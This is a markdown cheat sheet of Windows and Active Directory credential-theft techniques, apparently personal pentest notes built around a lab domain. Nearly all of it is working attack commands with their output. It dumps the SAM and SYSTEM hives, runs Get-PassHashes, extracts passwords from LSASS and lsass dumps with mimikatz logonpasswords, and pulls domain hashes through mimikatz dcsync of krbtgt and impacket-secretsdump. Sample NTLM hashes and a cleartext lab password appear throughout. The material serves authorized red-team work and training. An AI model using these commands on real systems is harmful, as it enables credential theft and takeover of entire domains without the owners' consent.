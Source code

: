 # Credential Collection

## Local

### GET SAM and Security when system running

On remote computer extrach SAM and SYSTEM

```text
reg save hklm\sam c:\sam
reg save hklm\system c:\system
```

[Credit](https://superuser.com/a/1088644)

### Read Local Sam Hashes Powershell

Download script from here : [https://github.com/samratashok/nishang/blob/master/Gather/Get-PassHashes.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-PassHashes.ps1)

import and run script

```text
PS C:\Users\testuser\Desktop\share> . .\Get-PassHashes.ps1
PS C:\Users\testuser\Desktop\share> Get-PassHashes
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
win10:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

### mimikatz lsass.DMP local analyze

if we cant run mimikatz on target machine, we can get dump of lsass process and analyze local computer.

Create dump of process \(need administrator rights\)

![image](https://user-images.githubusercontent.com/13157446/130370304-7543ddde-fe67-4094-95d8-df3ecf252352.png)

Dump file is located

```text
C:\Users\win10\AppData\Local\Temp\lsass.DMP
```

Get passwords

```text
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::minidump lsass.DMP
Switch to MINIDUMP : 'lsass.DMP'

mimikatz # sekurlsa::logonpasswords full
Opening : 'lsass.DMP' file for minidump...

Authentication Id : 0 ; 2436075 (00000000:00252beb)
Session           : Interactive from 1
User Name         : win10
Domain            : LOKI
Logon Server      : LOKI
Logon Time        : 8/21/2021 2:28:13 AM
SID               : S-1-5-21-4116903850-2340306423-3138033007-1000
        msv :
         [00010000] CredentialKeys
         * NTLM     : 31d6cfe0d16ae931b73c59d7e0c089c0
         * SHA1     : da39a3ee5e6b4b0d3255bfef95601890afd80709
         [00000003] Primary
         * Username : win10
         * Domain   : LOKI
         * NTLM     : 31d6cfe0d16ae931b73c59d7e0c089c0
         * SHA1     : da39a3ee5e6b4b0d3255bfef95601890afd80709
        tspkg :
        wdigest :
         * Username : win10
         * Domain   : LOKI
         * Password : (null)
        kerberos :
         * Username : win10
         * Domain   : LOKI
         * Password : (null)
        ssp :
        credman :
```

### mimikatz logonpasswords

cmd needs to run administrators rights / locally

```text
PS C:\Users\thor\Desktop\mimikatz\x64> .\mimikatz.exe

  .####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .# ^ #.  "A La Vie, A L'Amour" - (oe.eo)
 # / \ #  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilki
 # \ / #       > https://blog.gentilkiwi.com/mimikatz
 '# v #'       Vincent LE TOUX             ( vincent.letoux@gm
  '####'        > https://pingcastle.com / https://mysmartlogon

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 5990364 (00000000:005b67dc)
Session           : CachedInteractive from 1
User Name         : Administrator
Domain            : VALHALLA
Logon Server      : ODIN
Logon Time        : 13.08.2021 11:47:21
SID               : S-1-5-21-3410397846-649609989-2919355437-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : VALHALLA
         * LM       : 4fb7d301186e0eb3695109ab020e401c
         * NTLM     : c718f548c75062ada93250db208d3178
         * SHA1     : b27655136bebed1e53ded6cb9f837c450e7bb524
        tspkg :
         * Username : Administrator
         * Domain   : VALHALLA
         * Password : Pass123!
        wdigest :
         * Username : Administrator
         * Domain   : VALHALLA
         * Password : Pass123!
        kerberos :
         * Username : Administrator
         * Domain   : VALHALLA.LOCAL
         * Password : Pass123!
        ssp :
        credman :
```

## Remote

### mimikatz dcsync

authuser should be admin rights

```text
mimikatz # lsadump::dcsync /domain:valhalla.local /user:krbtgt /authuser:administrator /authpassword:Pass123!
[DC] 'valhalla.local' will be the domain
[DC] 'odin.valhalla.local' will be the DC server
[DC] 'krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
[rpc] Username : administrator
[rpc] Domain   :
[rpc] Password : Pass123!

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 13.08.2021 07:22:10
Object Security ID   : S-1-5-21-3410397846-649609989-2919355437-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: c2d3b9268608fab2b14a8c78c36316aa
    ntlm- 0: c2d3b9268608fab2b14a8c78c36316aa
    lm  - 0: 36fa5c99898f8a75a7783f250a6bf892
```

### impacket - Secretsdump

```text
┌──(kali㉿kali)-[~]
└─$ /usr/bin/impacket-secretsdump -just-dc-ntlm valhalla.local/administrator:Pass123\!@valhalla.local -just-dc-user testuser
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
valhalla.local\testuser:2117:aad3b435b51404eeaad3b435b51404ee:c718f548c75062ada93250db208d3178:::
[*] Cleaning up... 
```

